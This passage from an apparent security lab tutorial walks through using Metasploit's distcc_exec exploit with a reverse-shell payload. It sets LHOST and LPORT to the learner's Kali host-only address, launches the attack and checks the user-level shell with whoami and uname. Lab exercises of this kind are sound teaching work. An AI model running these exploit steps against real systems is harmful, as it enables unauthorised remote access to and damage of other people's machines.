 ```bash
msf exploit(distcc_exec) > show payloads
```

So ==action: to use a reverse shell:==

```bash
msf exploit(distcc_exec) > set PAYLOAD cmd/unix/reverse
```

Again, ==action: check the options that need to be set:==

```bash
msf exploit(distcc_exec) > show options
```

For the reverse shell to work, it needs to know what IP address and port to connect back to.

==action: Set the LHOST:==

```bash
msf exploit(distcc_exec) > set LHOST ==edit:Your-Kali-Host-Only-IP-Address==
```

==action: Set the LPORT:==

```bash
msf exploit(distcc_exec) > set LPORT ==edit:Your-Choice-of-Port==
```

Many exploits do not support it, but some can be checked to see if the target is vulnerable, without actually running the payload:

==action: Run:==

```bash
msf exploit(distcc_exec) > check
```

In this case, the exploit does not support checking if it will work, but it doesn't hurt to try.

And ==action: to launch the attack:==

```bash
msf exploit(distcc_exec) > exploit
```

Note that using msfconsole, launching the exploit will also start the reverse shell handler, so we don’t have to manually start the listener beforehand.

Although you are not greeted by the familiar Linux prompt, you can start running commands. ==action: Check that you have access to the system:==

```bash
whoami
```

```bash
uname -a
```

You have user level access to the system! 

In this case we have access to what this user can access on this system. Note that on Unix systems "root" is the superuser (admin) account, and gaining root access is often the aim in an attack against Unix, since you then have the authority to do practically anything on the target system. However, there is often plenty of damage a normal user can cause, including accessing any files that the user is authorised to access.
